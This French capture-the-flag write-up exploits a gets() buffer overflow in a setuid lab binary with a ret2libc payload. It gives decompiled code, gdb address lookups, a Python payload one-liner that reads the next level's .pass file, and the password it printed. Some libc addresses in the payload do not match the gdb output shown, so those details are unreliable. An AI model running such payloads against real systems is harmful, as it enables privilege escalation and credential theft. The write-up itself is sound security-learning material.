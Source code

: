 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
/home/user/level2
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level2 :

```
$ ./level2

```

Il ne répond qu'avec un input :

```
$ ./level2
da
da
```

Je décide à partir de ce niveau d'utiliser les logiciels de décompilation présent sur [Dogbolt](https://dogbolt.org/).

En lui passant le binaire au préalable téléchargé, `Ghidra` me procure le code 
suivant :

```c
void p() {
  uint unaff_retaddr;
  char buffer[76];
  
  fflush(stdout);
  gets(buffer);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(buffer);
  strdup(buffer);
  return;
}

void main(void) {
  p();
  return;
}
```

J'identifie :

- une vulnérabilité possible avec `gets()`
- la mise en place d'un 'safeguard' avec une condition if

`Dogbolt` me propose aussi la version d'`Hexray` :

```c
char *p() {
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  const void *v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(s);
  v2 = (const void *)retaddr;
  if ( (retaddr & 0xB0000000) == -1342177280 )
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(s);
  return strdup(s);
}
```

Etant donné qu'aucun appel à `exec` ne semble être fait dans l'ensemble du code décompilé, je me penche sur un type d'attaque appellé [Ret2Libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) et y trouve un schéma explicatif décrivant l'aspect du payload infecté nécessaire.

Afin d'exploiter `gets()`, je note d'abord que le buffer 'non-exploitable' est de 76 bytes d'après l'analyse par `Ghidra`.

Je note que la version d'`Hexray` spécifie que :

```c
unsigned int retaddr; // [esp+6Ch] [ebp+4h]
```

La partie `ebp+4` m'indique que la valeur de `retaddr` se trouve à `ebp + 4`.

`ebp` correspondant à un pointeur sur la frame de la stack actuelle, cela signifie que l'adresse de retour de `p` se trouve 4 bytes plus loin que `ebp`. Je dois donc ajouter 4 bytes à mon payload infecté afin qu'il fasse 80 bytes, et que les 4 prochains pointent sur `retaddr`.

Je compose donc mon payload infecté avec les informations suivantes :

- 80 bytes de `NOP` (`\x90`) qui correspondent à des instructions de ne rien faire et s'assure du bon alignement de la mémoire

- L'adresse de retour de `p` (trouvé avec `gdb` puis `disas main`) : `0x0804853e`

- Une adresse vers `system()` dans la `libc`

- Une adresse vers `exit()` dans la `libc`

- Une adresse vers `"bin/sh"` dans la `libc`


Pour trouver les trois dernières adresses, j'utilise `gdb` après avoir mis un `breakpoint` et avoir lancé le programme, afin de regarder sa mémoire :

```
# System
(gdb) info function system
0x08048360  system
0x08048360  system@plt
...

# Exit
(gdb) info function exit
0xb7e5ebe0  exit
...

# /bin/sh
(gdb) info proc mappings
...
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
...
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Je construis mon payload en utilisant python, y ajoute une lecture du `.pass` du level3, et enfin le passe à l'executable `level2` :

```python
(python -c 'print("\x90"*80
+ "\x08\x04\x85\x3e"[::-1] # <- return address of p [::-1] is an inverted splice
+ "\xb7\xe6\xb0\x60"[::-1] # <- return address of system
+ "\x08\x04\x83\xd0"[::-1] # <- return address of exit
+ "\xb7\xf8\xcc\x58"[::-1] # <- return address of "bin/sh"
)' && echo 'cat /home/user/level3/.pass') | ./level2

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

